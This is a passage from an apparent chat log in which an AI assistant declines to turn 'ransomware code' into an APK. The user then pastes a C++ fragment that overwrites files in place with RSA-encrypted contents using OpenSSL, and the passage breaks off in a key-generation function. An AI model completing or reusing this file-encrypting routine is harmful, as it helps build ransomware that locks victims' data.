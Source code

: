 

Creating an APK file with the provided ransomware code is strongly discouraged, as it goes against responsible AI usage and can harm others. It is important to use technology for positive and ethical purposes.



If you have any other non-harmful requests, please feel free to ask, and I'll be glad to assist you.
**USER**: Use c ++ as #include <iostream>

#include <fstream>

#include <filesystem>

#include <openssl/rsa.h>

#include <openssl/pem.h>



void encryptFile(const std::string& filePath, RSA* rsa)

{

    std::ifstream file(filePath, std::ios::binary);

    std::string data((std::istreambuf_iterator<char>(file)), std::istreambuf_iterator<char>());

    file.close();



    int encryptedDataLength = RSA_size(rsa);

    unsigned char* encryptedData = new unsigned char[encryptedDataLength];



    int result = RSA_public_encrypt(data.length(), reinterpret_cast<const unsigned char*>(data.c_str()), encryptedData, rsa, RSA_PKCS1_PADDING);

    if (result != -1)

    {

        std::ofstream encryptedFile(filePath, std::ios::binary);

        encryptedFile.write(reinterpret_cast<char*>(encryptedData), result);

        encryptedFile.close();

    }



    delete[] encryptedData;

}



std::string generatePublicKey()

{

    RSA* rsa = RSA_new();
